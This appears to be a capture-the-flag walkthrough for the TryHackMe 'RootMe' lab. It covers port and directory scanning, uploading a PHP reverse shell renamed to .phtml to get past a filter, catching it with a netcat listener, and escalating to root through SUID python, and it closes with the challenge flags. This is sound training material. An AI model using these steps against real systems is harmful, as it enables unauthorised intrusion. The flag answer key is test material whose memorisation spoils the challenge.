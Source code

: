 # Task 1 Deploy the machine :
----

>>Connect to TryHackMe network and deploy the machine. If you don't know how to do this, complete the OpenVPN room first.

----

# Task 2 Reconnaissance
----

>>First, let's get information about the target.
```bash
root@ip-10-10-170-228:~# nmap -sC -sV 10.10.55.52

Starting Nmap 7.60 ( https://nmap.org ) at 2021-12-31 13:04 GMT
Nmap scan report for ip-10-10-55-52.eu-west-1.compute.internal (10.10.55.52)
Host is up (0.057s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (EdDSA)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
MAC Address: 02:0B:F5:CC:71:6D (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.37 seconds


root@ip-10-10-170-228:~# gobuster dir -u http://10.10.55.52 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.55.52
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/12/31 13:15:05 Starting gobuster
===============================================================
/uploads (Status: 301)
/css (Status: 301)
/js (Status: 301)
/panel (Status: 301)
/server-status (Status: 403)
===============================================================
2021/12/31 13:15:53 Finished
===============================================================

```

----

# Task 3 Getting a shell
----

>>Find a form to upload and get a reverse shell, and find the flag.
```bash
root@ip-10-10-170-228:~# cp /usr/share/wordlists/SecLists/Web-Shells/laudanum-0.8/php/php-reverse-shell.php .
root@ip-10-10-170-228:~# ls
Desktop    Instructions           Pictures  Rooms    thinclient_drives
Downloads  php-reverse-shell.php  Postman   Scripts  Tools
root@ip-10-10-170-228:~# mv reverse-shell.jpeg.php reverse-shell.jpeg.phtml
root@ip-10-10-170-228:~# ls
Desktop    Instructions  Postman                   Rooms    thinclient_drives
Downloads  Pictures      reverse-shell.jpeg.phtml  Scripts  Tools

root@ip-10-10-170-228:~# nc -lvnp 9001
Listening on [0.0.0.0] (family 0, port 9001)
Connection from 10.10.55.52 46324 received!
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 13:35:21 up 33 min,  0 users,  load average: 0.00, 0.01, 0.21
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
$ python -c ‘import pty;pty.spawn(“/bin/bash”)’
Ctrl+Z
root@ip-10-10-170-228:~# stty raw -echo
root@ip-10-10-170-228:~# fg
bash-4.4$ export TERM=xterm
bash-4.4$ cd /var/www
bash-4.4$ ls
html  user.txt
bash-4.4$ cat user.txt 
THM{y0u_g0t_a_sh3ll}
```

----

# Task 4 Privilege escalation
----

>>Now that we have a shell, let's escalate our privileges to root.
```bash
bash-4.4$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# whoami
# cd /
# ls
bin    dev   initrd.img      lib64	 mnt   root  snap      sys  var
boot   etc   initrd.img.old  lost+found  opt   run   srv       tmp  vmlinuz
cdrom  home  lib	     media	 proc  sbin  swap.img  usr  vmlinuz.old
# cd root
# ls
root.txt
# cat root.txt
THM{pr1v1l3g3_3sc4l4t10n}
```
----

# ANSWER THE FOLLOWING :
----

1.Deploy the machine
>>No answer needed

2.Scan the machine, how many ports are open?
>>2

3.What version of Apache is running?
>>2.4.29

4.What service is running on port 22?
>>ssh

5.Find directories on the web server using the GoBuster tool.
>>No answer needed

6.What is the hidden directory?
>>/panel/

7.user.txt 
>>THM{y0u_g0t_a_sh3ll}

8.Search for files with SUID permission, which file is weird?
>>/usr/bin/python

9.Find a form to escalate your privileges.
>>No answer needed

10.root.txt
>>THM{pr1v1l3g3_3sc4l4t10n}

----